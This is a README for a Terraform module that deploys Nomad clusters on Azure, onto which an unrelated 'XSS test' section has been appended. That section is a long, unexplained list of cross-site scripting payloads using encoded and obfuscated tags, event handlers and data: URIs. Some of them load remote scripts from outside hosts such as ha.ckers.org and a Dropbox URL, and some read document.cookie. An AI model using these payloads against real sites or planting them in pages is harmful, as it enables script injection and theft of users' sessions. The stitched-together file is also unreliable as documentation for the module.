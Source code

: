 # Nomad Azure Module

This repo contains a Module for how to deploy a [Nomad](https://www.nomadproject.io/) cluster on 
[Azure](https://azure.microsoft.com/) using [Terraform](https://www.terraform.io/). Nomad is a distributed, highly-available 
data-center aware scheduler. A Nomad cluster typically includes a small number of server nodes, which are responsible 
for being part of the [concensus protocol](https://www.nomadproject.io/docs/internals/consensus.html), and a larger 
number of client nodes, which are used for running jobs:

![Nomad architecture](https://raw.githubusercontent.com/hashicorp/terraform-azurerm-nomad/master/_docs/architecture.png)

This Module includes:

* [install-nomad](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/install-nomad): This module can be used to install Nomad. It can be used in a 
  [Packer](https://www.packer.io/) template to create a Nomad 
  [Azure Managed Image](https://docs.microsoft.com/en-us/azure/virtual-machines/linux/build-image-with-packer).

* [run-nomad](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/run-nomad): This module can be used to configure and run Nomad. It can be used in a 
  [User Data](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/classic/inject-custom-data) 
  script to fire up Nomad while the server is booting.

* [nomad-cluster](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/nomad-cluster): Terraform code to deploy a cluster of Nomad servers using Scale Set.
    
  



## What's a Module?

A Module is a canonical, reusable, best-practices definition for how to run a single piece of infrastructure, such 
as a database or server cluster. Each Module is created primarily using [Terraform](https://www.terraform.io/), 
includes automated tests, examples, and documentation, and is maintained both by the open source community and 
companies that provide commercial support. 

Instead of having to figure out the details of how to run a piece of infrastructure from scratch, you can reuse 
existing code that has been proven in production. And instead of maintaining all that infrastructure code yourself, 
you can leverage the work of the Module community and maintainers, and pick up infrastructure improvements through
a version number bump.
 
 
 
## Who maintains this Module?

This Module is maintained by [Gruntwork](http://www.gruntwork.io/). If you're looking for help or commercial 
support, send an email to [Modules@gruntwork.io](mailto:Modules@gruntwork.io?Subject=Nomad%20Module). 
Gruntwork can help with:

* Setup, customization, and support for this Module.
* Modules for other types of infrastructure, such as VPCs, Docker clusters, databases, and continuous integration.
* Modules that meet compliance requirements, such as HIPAA.
* Consulting & Training on AWS, Terraform, and DevOps.



## How do you use this Module?

Each Module has the following folder structure:

* [modules](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules): This folder contains the reusable code for this Module, broken down into one or more modules.
* [examples](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/examples): This folder contains examples of how to use the modules.
* [test](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/test): Automated tests for the modules and examples.

Click on each of the modules above for more details.

To run a Nomad cluster, you need to deploy a small number of server nodes (typically 3), which are responsible 
for being part of the [concensus protocol](https://www.nomadproject.io/docs/internals/consensus.html), and a larger 
number of client nodes, which are used for running jobs. You must also have a [Consul](https://www.consul.io/) cluster 
deployed (see the [Consul Azure Module](https://github.com/hashicorp/terraform-azurerm-consul)) in one of the following 
configurations:

1. [Deploy Nomad and Consul in the same cluster](#deploy-nomad-and-consul-in-the-same-cluster)
1. [Deploy Nomad and Consul in separate clusters](#deploy-nomad-and-consul-in-separate-clusters)


### Deploy Nomad and Consul in the same cluster

1. Use the [install-consul 
   module](https://github.com/hashicorp/terraform-azurerm-consul/tree/master/modules/install-consul) from the Consul Azure
   Module and the [install-nomad module](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/install-nomad) from this Module in a Packer template to create 
   an Azure Image with Consul and Nomad.
1. Deploy a small number of server nodes (typically, 3) using the [consul-cluster 
   module](https://github.com/hashicorp/terraform-azurerm-consul/tree/master/modules/consul-cluster). Execute the 
   [run-consul script](https://github.com/hashicorp/terraform-azurerm-consul/tree/master/modules/run-consul) and the
   [run-nomad script](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/run-nomad) on each node during boot, setting the `--server` flag in both 
   scripts.
1. Deploy as many client nodes as you need using the [nomad-cluster module](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/nomad-cluster). Execute the 
   [run-consul script](https://github.com/hashicorp/terraform-azurerm-consul/tree/master/modules/run-consul) and the
   [run-nomad script](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/run-nomad) on each node during boot, setting the `--client` flag in both 
   scripts.

Check out the [nomad-consul-colocated-cluster example](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/examples/nomad-consul-colocated-cluster) for working
sample code.


### Deploy Nomad and Consul in separate clusters

1. Deploy a standalone Consul cluster by following the instructions in the [Consul Azure 
   Module](https://github.com/hashicorp/terraform-azurerm-consul).
1. Use the scripts from the [install-nomad module](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/install-nomad) in a Packer template to create a Nomad Azure Image.
1. Deploy a small number of server nodes (typically, 3) using the [nomad-cluster module](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/nomad). Execute the    
   [run-nomad script](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/run-nomad) on each node during boot, setting the `--server` flag. You will 
   need to configure each node with the connection details for your standalone Consul cluster.   
1. Deploy as many client nodes as you need using the [nomad-cluster module](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/nomad). Execute the 
   [run-nomad script](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/modules/run-nomad) on each node during boot, setting the `--client` flag.

Check out the [nomad-consul-separate-cluster example](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/examples/nomad-consul-separate-cluster) for working
sample code.

 



## How do I contribute to this Module?

Contributions are very welcome! Check out the [Contribution Guidelines](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/CONTRIBUTING.md) for instructions.



## How is this Module versioned?

This Module follows the principles of [Semantic Versioning](http://semver.org/). You can find each new release, 
along with the changelog, in the [Releases Page](../../releases). 

During initial development, the major version will be 0 (e.g., `0.x.y`), which indicates the code does not yet have a 
stable API. Once we hit `1.0.0`, we will make every effort to maintain a backwards compatible API and use the MAJOR, 
MINOR, and PATCH versions on each release to indicate any incompatibilities. 



## License

This code is released under the Apache 2.0 License. Please see [LICENSE](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/LICENSE) and [NOTICE](https://github.com/hashicorp/terraform-azurerm-nomad/tree/master/NOTICE) for more 
details.

## XSS test

<script>alert(123);</script>
<ScRipT>alert("XSS");</ScRipT>
<script>alert(123)</script>
<script>alert("hellox worldss");</script>
<script>alert(“XSS”)</script> 
<script>alert(“XSS”);</script>
<script>alert(‘XSS’)</script>
“><script>alert(“XSS”)</script>
<script>alert(/XSS”)</script>
<script>alert(/XSS/)</script>
</script><script>alert(1)</script>
‘; alert(1);
‘)alert(1);//
<ScRiPt>alert(1)</sCriPt>
<IMG SRC=jAVasCrIPt:alert(‘XSS’)>
<IMG SRC=”javascript:alert(‘XSS’);”>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=javascript:alert(‘XSS’)>      
<img src=xss onerror=alert(1)>


<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

<sVg><scRipt %00>alert&lpar;1&rpar; {Opera}

<img/src=`%00` onerror=this.onerror=confirm(1)

<form><isindex formaction="javascript&colon;confirm(1)"

<img src=`%00`&NewLine; onerror=alert(1)&NewLine;

<script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>

<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/

&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

<iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">

<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>

<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script

<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}

<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>

<form><a href="javascript:\u0061lert&#x28;1&#x29;">X

</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>

<a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a

http://www.google<script .com>alert(document.location)</script

<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a

<img/src=@&#32;&#13; onerror = prompt('&#49;')

<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;

<script ^__^>alert(String.fromCharCode(49))</script ^__^

</style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(

&#00;</form><input type&#61;"date" onfocus="alert(1)">

<form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>

<script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/

<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>

<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>

<script ~~~>alert(0%0)</script ~~~>

<style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>

<///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN

<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'

&#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}

<marquee onstart='javascript:alert&#x28;1&#x29;'>^__^

<div/style="width:expression(confirm(1))">X</div> {IE7}

<iframe/%00/ src=javaSCRIPT&colon;alert(1)

//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//

/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>

//|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\

</font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>

<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">

</plaintext\></|\><plaintext/onmouseover=prompt(1)

</svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}

<a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>

<div onmouseover='alert&lpar;1&rpar;'>DIV</div>

<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>

<embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

<object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

<var onmouseover="prompt(1)">On Mouse Over</var>

<a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>

<img src="/" =_=" title="onerror='prompt(1)'">

<%<!--'%><script>alert(1);</script -->

<script src="data:text/javascript,alert(1)"></script>
<iframe/src \/\/onload = prompt(1)

<iframe/onreadystatechange=alert(1)

<svg/onload=alert(1)

<input value=<><iframe/src=javascript:confirm(1)

<input type="text" value=`` <div/onmouseover='alert(1)'>X</div>

http://www.<script>alert(1)</script .com

<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>

<svg><script ?>alert(1)

<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>

<img src=`xx:xx`onerror=alert(1)>

<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click

<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
<svg contentScriptType=text/vbs><script>MsgBox+1

<a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a

<iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>

<script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+

<script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script

<object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>

<script>+-+-1-+-+alert(1)</script>

<body/onload=&lt;!--&gt;&#10alert(1)>

<script itworksinallbrowsers>/*<script* */alert(1)</script

<img src ?itworksonchrome?\/onerror = alert(1)

<svg><script>//&NewLine;confirm(1);</script </svg>
<svg><script onlypossibleinopera:-)> alert(1)

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe

<script x> alert(1) </script 1=2

<div/onmouseover='alert(1)'> style="x:">

<--`<img/src=` onerror=alert(1)> --!>
 <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>

<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>

"><img src=x onerror=window.open('https://www.google.com/');>

<form><button formaction=javascript&colon;alert(1)>CLICKME

<math><a xlink:href="//jsfiddle.net/t846h/">click

<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>

<SCRIPT>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</SCRIPT>
‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<IMG “””><SCRIPT>alert(“XSS”)</SCRIPT>”>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=”jav ascript:alert(‘XSS’);”>
<IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
%253cscript%253ealert(1)%253c/script%253e
“><s”%2b”cript>alert(document.cookie)</script>
foo<script>alert(1)</script>
<scr<script>ipt>alert(1)</scr</script>ipt>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
<BODY ONLOAD=alert(‘XSS’)>
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
<IMG SRC=”javascript:alert(‘XSS’)”
<iframe src=http://ha.ckers.org/scriptlet.html <
javascript:alert("hellox worldss")
<img src="javascript:alert('XSS');">
<img src=javascript:alert(&quot;XSS&quot;)>
<"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))<?/SCRIPT>&submit.x=27&submit.y=9&cmd=search
<script>alert("hellox worldss")</script>&safe=high&cx=006665157904466893121:su_tzknyxug&cof=FORID:9#510
<script>alert("XSS");</script>&search=1
0&q=';alert(String.fromCharCode(88,83,83))//\';alert%2?8String.fromCharCode(88,83,83))//";alert(String.fromCharCode?(88,83,83))//\";alert(String.fromCharCode(88,83,83)%?29//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83%?2C83))</SCRIPT>&submit-frmGoogleWeb=Web+Search
<h1><font color=blue>hellox worldss</h1>
<BODY ONLOAD=alert('hellox worldss')>
<input onfocus=write(XSS) autofocus>
<input onblur=write(XSS) autofocus><input autofocus>
<body onscroll=alert(XSS)><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
<form><button formaction="javascript:alert(XSS)">lol
<!--<img src="--><img src=x onerror=alert(XSS)//">
<![><img src="]><img src=x onerror=alert(XSS)//">
<style><img src="</style><img src=x onerror=alert(XSS)//">
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<? foo="><x foo='?><script>alert(1)</script>'>">
<! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
<% foo><x foo="%><script>alert(123)</script>">
<div style="font-family:'foo&#10;;color:red;';">LOL
LOL<style>*{/*all*/color/*all*/:/*all*/red/*all*/;/[0]*IE,Safari*[0]/color:green;color:bl/*IE*/ue;}</style>
<script>({0:#0=alert/#0#/#0#(0)})</script>
<svg xmlns="http://www.w3.org/2000/svg">LOL<script>alert(123)</script></svg>
&lt;SCRIPT&gt;alert(/XSS/&#46;source)&lt;/SCRIPT&gt;
\\";alert('XSS');//
&lt;/TITLE&gt;&lt;SCRIPT&gt;alert(\"XSS\");&lt;/SCRIPT&gt;
&lt;INPUT TYPE=\"IMAGE\" SRC=\"javascript&#058;alert('XSS');\"&gt;
&lt;BODY BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
&lt;BODY ONLOAD=alert('XSS')&gt;
&lt;IMG DYNSRC=\"javascript&#058;alert('XSS')\"&gt;
&lt;IMG LOWSRC=\"javascript&#058;alert('XSS')\"&gt;
&lt;BGSOUND SRC=\"javascript&#058;alert('XSS');\"&gt;
&lt;BR SIZE=\"&{alert('XSS')}\"&gt;
&lt;LAYER SRC=\"http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html\"&gt;&lt;/LAYER&gt;
&lt;LINK REL=\"stylesheet\" HREF=\"javascript&#058;alert('XSS');\"&gt;
&lt;LINK REL=\"stylesheet\" HREF=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;css\"&gt;
&lt;STYLE&gt;@import'http&#58;//ha&#46;ckers&#46;org/xss&#46;css';&lt;/STYLE&gt;
&lt;META HTTP-EQUIV=\"Link\" Content=\"&lt;http&#58;//ha&#46;ckers&#46;org/xss&#46;css&gt;; REL=stylesheet\"&gt;
&lt;STYLE&gt;BODY{-moz-binding&#58;url(\"http&#58;//ha&#46;ckers&#46;org/xssmoz&#46;xml#xss\")}&lt;/STYLE&gt;
&lt;XSS STYLE=\"behavior&#58; url(xss&#46;htc);\"&gt;
&lt;STYLE&gt;li {list-style-image&#58; url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS
&lt;IMG SRC='vbscript&#058;msgbox(\"XSS\")'&gt;
&lt;IMG SRC=\"mocha&#58;&#91;code&#93;\"&gt;
&lt;IMG SRC=\"livescript&#058;&#91;code&#93;\"&gt;
žscriptualert(EXSSE)ž/scriptu
&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript&#058;alert('XSS');\"&gt;
&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=data&#58;text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K\"&gt;
&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http&#58;//;URL=javascript&#058;alert('XSS');\"
&lt;IFRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/IFRAME&gt;
&lt;FRAMESET&gt;&lt;FRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/FRAMESET&gt;
&lt;TABLE BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
&lt;TABLE&gt;&lt;TD BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
&lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;
&lt;DIV STYLE=\"background-image&#58;\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028&#46;1027\0058&#46;1053\0053\0027\0029'\0029\"&gt;
&lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;
&lt;DIV STYLE=\"width&#58; expression(alert('XSS'));\"&gt;
&lt;STYLE&gt;@im\port'\ja\vasc\ript&#58;alert(\"XSS\")';&lt;/STYLE&gt;
&lt;IMG STYLE=\"xss&#58;expr/*XSS*/ession(alert('XSS'))\"&gt;
&lt;XSS STYLE=\"xss&#58;expression(alert('XSS'))\"&gt;
exp/*&lt;A STYLE='no\xss&#58;noxss(\"*//*\");
xss&#58;ex&#x2F;*XSS*//*/*/pression(alert(\"XSS\"))'&gt;
&lt;STYLE TYPE=\"text/javascript\"&gt;alert('XSS');&lt;/STYLE&gt;
&lt;STYLE&gt;&#46;XSS{background-image&#58;url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;
&lt;STYLE type=\"text/css\"&gt;BODY{background&#58;url(\"javascript&#058;alert('XSS')\")}&lt;/STYLE&gt;
&lt;!--&#91;if gte IE 4&#93;&gt;
&lt;SCRIPT&gt;alert('XSS');&lt;/SCRIPT&gt;
&lt;!&#91;endif&#93;--&gt;
&lt;BASE HREF=\"javascript&#058;alert('XSS');//\"&gt;
&lt;OBJECT TYPE=\"text/x-scriptlet\" DATA=\"http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html\"&gt;&lt;/OBJECT&gt;
&lt;OBJECT classid=clsid&#58;ae24fdae-03c6-11d1-8b76-0080c744f389&gt;&lt;param name=url value=javascript&#058;alert('XSS')&gt;&lt;/OBJECT&gt;
